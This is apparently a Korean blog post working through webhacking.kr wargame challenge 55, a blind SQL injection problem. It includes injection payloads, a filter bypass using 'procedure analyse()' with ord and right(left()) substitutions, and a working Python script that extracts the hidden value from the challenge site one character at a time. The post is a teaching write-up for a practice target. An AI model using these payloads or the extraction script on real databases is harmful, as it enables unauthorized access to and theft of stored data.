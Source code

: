 ```yaml
---
title: "[webhacking.kr] 55번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "55번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 55번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제

  게임 화면 

  ![image](https://user-images.githubusercontent.com/33647663/153992949-e8311e48-9e0d-4038-a5cb-eccb5ef31b26.png){: .align-center}



  랭킹 조회 화면

  ![image](https://user-images.githubusercontent.com/33647663/153993010-6e0b01d3-ffcc-4a5f-99f5-316d3e86040f.png){: .align-center}


  마우스를 움직이면 그림이 따라움직이고, score가 DB에 저장됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/153999656-de31cfac-e90b-4c1e-887b-b6071e378aec.png){: .align-center}




# 실패한 시도
  우선 성공하진 못했지만 처음 시도한 방법은 insert 문을 이용해서 DB에 추가적인 데이터 삽입을 시도했습니다. 현재 score에 따라서 DB에는 다음과 같이 데이터가 들어갑니다. trim 함수는 주어진 문자열의 맨 앞과 맨 뒤의 공백을 제거하는 함수기 때문에 score에 공백만 주지 않는다면 다음과 동일하게 작동합니다.

  ```sql
insert into chall55 values('{id}','{score}','{flag}')
  ```  

  따라서 score에 다음과 같이 injection을 시도합니다. **이때, score로 넣는 값은 ranking에서 조회되지 않는 점수들입니다.**

  ```sql
score = 8080','flag'),(database(),'8081
  ```

  그러면 다음과 같이 쿼리문이 작동하여, 8081을 조회하면 DB명이 들어갈 것입니다.

```sql
insert into chall55 values('oksusu98','8080','flag'),(database(),'8081','flag')
```

하지만 시도해보니 DB에 insert 가 되지 않았습니다. 아마 뒤에서 내부 로직으로 필터링 하는 로직이 있는 것 같습니다.

# 문제 풀이
  그 다음에 시도한 부분은 랭킹에서 테이블을 검색해오는 부분의 sql 을 인젝션 해봤습니다. table에서 데이터를 검색해오는 로직은 다음과 같이 추정됩니다.

  ```sql
select * from chall55 where score = {}; # score가 int형인 경우
select * from chall55 where score = '{}'; # score가 char형인 경우
  ```

  시도 해본 결과 score는 int형으로 저장되어 있었고, 다음과 같이 injection을 시도해보니 성공적으로 되었습니다.

  **2=2**로 시도한 결과

  ![image](https://user-images.githubusercontent.com/33647663/154000909-b6148adb-a636-4193-b005-6d77218eb4f5.png){: .align-center}

  **2=1**로 시도한 결과

  ![image](https://user-images.githubusercontent.com/33647663/154000982-c2b0eeb7-5493-48d2-aeed-855b6dba5931.png){: .align-center}

우선 score로 blind sql injection을 수행 가능함을 알았습니다.

그리고 blind sql injection을 수행하는데 select 문이 필터링 되어 있었습니다.

![image](https://user-images.githubusercontent.com/33647663/154001183-8abad69f-fe45-49d4-bae4-482893dd866e.png){: .align-center}

select 문이 필터링 되어있을때, 테이블명을 알아오는 방법은 procedure analyse()를 이용하는 방법이 있어서 이를 이용했습니다.

**score = 1 procedure analyse()**

![image](https://user-images.githubusercontent.com/33647663/154001362-f934944f-3cd0-448b-9adb-3b715999ce4d.png){: .align-center}


실행결과 DB명, table명, column 명을 알수 있었습니다. 이제 차례대로 column명을 알아옵니다.


**score = 1 limit 1,1 procedure analyse()**

![image](https://user-images.githubusercontent.com/33647663/154001536-806819f8-0480-4006-bd9c-578a8cd37168.png){: .align-center}

**score = 1 limit 2,1 procedure analyse()**

![image](https://user-images.githubusercontent.com/33647663/154001669-043975ad-0adc-4bf8-9301-649fe86a47ed.png){: .align-center}

Flag가 들어있는 컬럼명을 알아냈습니다. 이를 이용해서 blind sql injection을 수행하면 됩니다.


blind sql injection에 사용한 코드는 다음과 같으며 필터링을 우회한 기법으로는 다음 2가지를 사용했습니다.

1. ascii -> ord 우회
2. substr -> right(left('string',1),1) 우회

```python
import requests
import string

url = "https://webhacking.kr/challenge/web-31/rank.php"
params = {}
TRUE_FLAG = 'Piterpan'  # 1=1 일때 화면에 출력되는 id

password_length = 0
for i in range(40):
    payload = "(length(p4ssw0rd_1123581321) = {})".format(i)
    params['score'] = payload
    response = requests.get(url,params=params)
    if(TRUE_FLAG in response.text):
        password_length = i
        print('[+] Password length is',i)
        break

# 비밀번호 길이 31
# substr(password,3,1) -> right(left(right,3),1)
flag = ''
for i in range(1,password_length+1):
    for character in string.printable:
        payload = '(ord( right(left(p4ssw0rd_1123581321,{}),1)) = {})'.format(i,ord(character))
        params['score'] = payload
        response = requests.get(url,params=params)
        if(TRUE_FLAG in response.text):
            flag += character
            print('\r[+]',i,flag,end='')
            break
    print()

print(flag)
```

